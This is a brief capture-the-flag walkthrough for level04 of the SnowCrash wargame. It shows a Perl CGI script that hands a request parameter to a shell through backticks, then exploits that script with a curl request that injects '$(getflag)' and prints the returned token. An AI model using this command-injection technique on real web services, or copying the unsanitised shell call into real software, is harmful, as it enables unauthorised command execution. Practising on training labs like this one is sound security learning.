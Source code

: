 > level04@SnowCrash:~$ cat level04.pl
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param};
> print "Content-type: text/html\n\n";
> sub x {
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x"));

It is exposing an http endpoint on localhost:4747 so we will use curl to request it
we can exploit `echo $y`

then execute
`curl http://localhost:4747/?x="\$(getflag)"

> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
